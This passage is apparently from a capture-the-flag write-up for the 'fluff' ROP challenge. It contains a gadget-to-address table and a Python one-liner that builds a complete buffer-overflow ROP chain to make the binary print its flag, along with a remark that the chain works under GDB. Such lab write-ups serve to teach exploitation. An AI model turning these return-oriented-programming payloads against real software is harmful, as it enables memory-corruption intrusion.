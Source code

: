 | `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `x_address - curr_al(t) - 0x3ef2` | "\x6e\xa9\xbe\xf7\xff\x7f\x00\x00"|
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `t_address - curr_al(x) - 0x3ef2` | "\xd0\xa2\xbe\xf7\xff\x7f\x00\x00"|
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdi; ret;` | "\xa3\x06\x40\x00\x00\x00\x00\x00" |
| `.data ` | "\x28\x10\x60\x00\x00\x00\x00\x00" |
| `print_file` | "\x10\x05\x40\x00\x00\x00\x00\x00" |


```bash
python -c 'print "\x55"*40 + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" +  "\x28\x10\x60\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xac\xaa\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xfb\xa2\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x6d\xab\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x1f\xc9\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x1a\xa3\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x6e\xa9\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xd0\xa2\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" + "\x28\x10\x60\x00\x00\x00\x00\x00" + "\x10\x05\x40\x00\x00\x00\x00\x00" ' |  ./fluff
```

running the above cell of code in terminal seems it doesent work, but saving the output in a file and then running it inside GDB correctly print the flag before getting a SIGSEV and crashing.

```bash

(kali㉿kali)-[~/Downloads/fluff]
```